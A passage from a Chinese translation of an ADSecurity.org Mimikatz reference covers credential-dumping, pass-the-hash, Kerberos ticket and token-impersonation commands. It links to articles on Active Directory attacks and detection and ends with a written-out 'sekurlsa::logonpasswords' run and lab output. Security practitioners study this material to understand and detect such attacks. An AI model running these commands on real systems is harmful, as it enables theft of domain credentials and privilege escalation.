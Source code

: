 *   [SEKURLSA::LogonPasswords](https://adsecurity.org/?page_id=1821#SEKURLSALogonPasswords)– 列出所有可用的提供者的凭据。这个命令通常会显示最近登录过的用户和最近登录过的计算机的凭证。
*   [SEKURLSA::Pth](https://adsecurity.org/?page_id=1821#SEKURLSAPth)– Hash 传递 和 Key 传递（注：Over-Pass-the-Hash 的实际过程就是传递了相关的 Key(s)）
*   [SEKURLSA::Tickets](https://adsecurity.org/?page_id=1821#SEKURLSATickets)– 列出最近所有已经过身份验证的用户的可用的 Kerberos 票证，包括使用用户帐户的上下文运行的服务和本地计算机在 AD 中的计算机帐户。与**kerberos::list**不同的是 sekurlsa 使用内存读取的方式，它不会受到密钥导出的限制。
*   [TOKEN::List](https://adsecurity.org/?page_id=1821#TOKENList)– 列出系统中的所有令牌
*   [TOKEN::Elevate](https://adsecurity.org/?page_id=1821#TOKENElevate)– 假冒令牌。用于提升权限至 SYSTEM 权限（默认情况下）或者是发现计算机中的域管理员的令牌。
*   [TOKEN::Elevate /domainadmin](https://adsecurity.org/?page_id=1821#TOKENElevate)– 假冒一个拥有域管理员凭证的令牌。

0x03 ADSecurity 中与 Mimikatz 相关的文章
=====

所有提及到 Mimikatz 的文章：[ADSecurity.org Mimikatz Posts](https://adsecurity.org/?tag=mimikatz)

*   [Mimikatz and Active Directory Kerberos Attacks](https://adsecurity.org/?p=556)
*   [Dump Clear-Text Passwords for All Admins in the Domain Using Mimikatz DCSync](https://adsecurity.org/?p=2053)
*   [How Attackers Use Kerberos Silver Tickets to Exploit Systems](https://adsecurity.org/?p=2011)
*   [Mimikatz DCSync Usage, Exploitation, and Detection](https://adsecurity.org/?p=1729)
*   [Sneaky Active Directory Persistence #12: Malicious Security Support Provider (SSP)](https://adsecurity.org/?p=1760)
*   [Sneaky Active Directory Persistence #11: Directory Service Restore Mode (DSRM)](https://adsecurity.org/?p=1714)
*   [Kerberos Golden Tickets are Now More Golden](https://adsecurity.org/?p=1640)
*   [It’s All About Trust – Forging Kerberos Trust Tickets to Spoof Access across Active Directory Trusts](https://adsecurity.org/?p=1588)
*   [Detecting Mimikatz Use](https://adsecurity.org/?p=1567)

0x04 Mimikatz 命令指南
=====

Mimikatz 可以在交互模式中运行，只需运行 “Mimikatz.exe” 即可或传递命令并退出（例如：'`Mimikatz “Kerberos::list” exit`'）。Invoke-Mimikatz 没有交互模式。

Mimikatz 可以在命令行中传递多个命令，这在使用 Invoke-Mimikatz 或者是在脚本文件中使用 Mimikatz 时非常有用。

追加的 “exit” 是 Mimikatz 执行的最后一个命令，这能够使 Mimikatz 自动退出。

```
PS C:\temp\mimikatz> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit

.#####.   mimikatz 2.0 alpha (x64) release "Kiwi en C" (Nov 13 2015 00:44:32)
 .## ^ ##.
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
 '#####'                                     with 17 modules * * */

mimikatz(commandline) # privilege::debug
 Privilege '20' OK

mimikatz(commandline) # sekurlsa::logonpasswords

Authentication Id : 0 ; 646260 (00000000:0009dc74)
 Session           : RemoteInteractive from 2
 User Name         : adsadministrator
 Domain            : ADSECLAB
 Logon Server      : ADSDC03
 Logon Time        : 11/27/2015 11:41:27 AM
 SID               : S-1-5-21-1581655573-3923512380-696647894-500
 msv :
 [00000003] Primary
 * Username : ADSAdministrator
```